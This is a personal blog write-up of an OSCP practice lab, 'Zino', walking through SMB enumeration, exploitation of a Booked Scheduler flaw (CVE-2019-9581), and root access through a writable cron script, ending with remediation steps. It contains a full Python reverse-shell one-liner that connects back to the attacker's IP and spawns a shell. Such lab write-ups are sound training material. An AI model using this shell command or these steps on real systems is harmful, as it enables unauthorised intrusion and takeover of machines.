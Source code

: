 ```yaml
---
draft: false

title: 'Zino - Proving Grounds #1'
date: '2023-11-28T00:55:24+00:00'
author: William

category:
    - Hacking

tag:
    - Hacking


---
```

This was my first proving grounds lab of my OSCP. Took longer than I would have liked but I was able to pwn it in the end with a joyful fist pump and woop from my side. Any advice or comments on how I could improve this write-up would be appreciated.

#### Executive summary

The attacker was able to achieve privileged remote code execution on the target box. Issues found can be easily remediated by updating the software Booked Scheduler to V3.7.9 and restricting write permissions of a scheduled cron job.

#### Technical Findings

These are the steps I took to achieve privileged remote code execution in this lab.

Starting with a high-level scan of our target.  
![](https://i0.wp.com/i.imgur.com/PzhTifh.png?resize=704%2C357&ssl=1)

<span id="speechify-first-word-listening-nudge-root-12" style="position: absolute; z-index: 10000;"></span><span id="speechify-first-word-listening-nudge-12"><span id="speechify-first-word-listening-nudge-root-12" style="position: absolute; z-index: 10000;"></span><span id="speechify-first-word-listening-nudge-12">Of these lets</span></span> take a closer look at the smb ports  
![](https://i.imgur.com/YU0ToTg.png?resize=760%2C532&ssl=1)We see that guest is enabled on port 445. This combined with a quick enumeration of the shares using <span style="text-decoration: underline;">smbmap</span> we can log into our target using smbclient.  
![](https://i.imgur.com/V1QmpMi.png?resize=609%2C279&ssl=1)

Here we find our first flag **local.txt** along with a bunch of log files.

<span id="speechify-first-word-listening-nudge-root-12" style="position: absolute; z-index: 10000;"></span><span id="speechify-first-word-listening-nudge-12">50% DONE!!!</span>

Of these auth.log and misc.log have some interesting contents  
![](https://i.imgur.com/oEsCkHH.png?resize=903%2C84&ssl=1)

![](https://i.imgur.com/uKg3ptK.png?resize=720%2C122&ssl=1)Of these two misc.log is the most interesting as it has admin credentials in it. Ill be using this going forward.

<span id="speechify-first-word-listening-nudge-root-17" style="position: absolute; z-index: 10000;"></span><span id="speechify-first-word-listening-nudge-17"><span id="speechify-first-word-listening-nudge-root-17" style="position: absolute; z-index: 10000;"></span><span id="speechify-first-word-listening-nudge-17">With our initial</span></span> Nmap scan we found a webserver hosted on port 8003. On closer inspection we find a login portal with the version of the hosting software listed at the bottom. After a quick lookup of this software we find the following.  
![](https://i.imgur.com/cVRcvtR.png?resize=836%2C127&ssl=1)

Ill be using the seccond entry (50594.py) to exploit our target. This exploits the vulnerability CVE-2019-9581.  
![](https://i.imgur.com/zkWQAXl.png?resize=586%2C111&ssl=1)With remote code execution on our host we can now leverage this into a reverse shell using a generic Python reverse shell script.

```
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.215",21));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")’
```

![](https://i.imgur.com/iMu1dUe.png?resize=572%2C105&ssl=1)

<span id="speechify-first-word-listening-nudge-root-20" style="position: absolute; z-index: 10000;"></span><span id="speechify-first-word-listening-nudge-20"><span id="speechify-first-word-listening-nudge-root-20" style="position: absolute; z-index: 10000;"></span><span id="speechify-first-word-listening-nudge-20">SUCCESS. Now with</span></span> the reverse shell I can start looking around for what we have access to… To save you the headache I’ll fast track to the fun part. I find an interesting entry in the cron jobs folder.  
![](https://i.imgur.com/MGoJlKn.png?resize=807%2C384&ssl=1)There right at the bottom, there is a Python script run by the cron job with root privileges. Looking at the file in question confirms that we are able to edit it.  
![](https://i.imgur.com/hwPItPu.png?resize=705%2C38&ssl=1)

We write a Python script locally that will execute the generic reverse shell Python script we used earlier, but now because it will be executed in the root context we will get a root shell.

<span id="speechify-first-word-listening-nudge-root-20" style="position: absolute; z-index: 10000;"></span><span id="speechify-first-word-listening-nudge-20">So we write</span> the script and host it on our local HTTP server.  
![](https://i.imgur.com/REwW9wj.png?resize=680%2C180&ssl=1)Fetch that puppy overwriting the cleanup.py file! And now we wait with a netcat listener.  
After a minute and a quick coffee break we come back to this beautiful sight  
![](https://i.imgur.com/GJSys1g.png?resize=633%2C117&ssl=1)SUCCESS!!!!!

<span id="speechify-first-word-listening-nudge-root-23" style="position: absolute; z-index: 10000;"></span><span id="speechify-first-word-listening-nudge-23"><span id="speechify-first-word-listening-nudge-root-23" style="position: absolute; z-index: 10000;"></span><span id="speechify-first-word-listening-nudge-23">The flag can</span></span> be found at **cat /root/proof.txt**

Something to note is that you will run into issues if you try to use any ports other than those opened. It seems for this lab they closed all unnecessary ports in line with industry best practice.


#### Conclusion

<span id="speechify-first-word-listening-nudge-root-23" style="position: absolute; z-index: 10000;"></span><span id="speechify-first-word-listening-nudge-23">How to fix</span> this is quite simple. Here are 3 action times:

1. Update Booked Scheduler to 3.7.9 to prevent the initial foothold
2. Restrict write permissions on <span style="text-decoration: underline;">cleanup.py</span>
3. Ensure no user credentials are logged. And probably reroll admin and peter, using a more secure password this time ;D

All in all, this was a fun lab to start cutting my teeth on, don’t worry this is the first of many!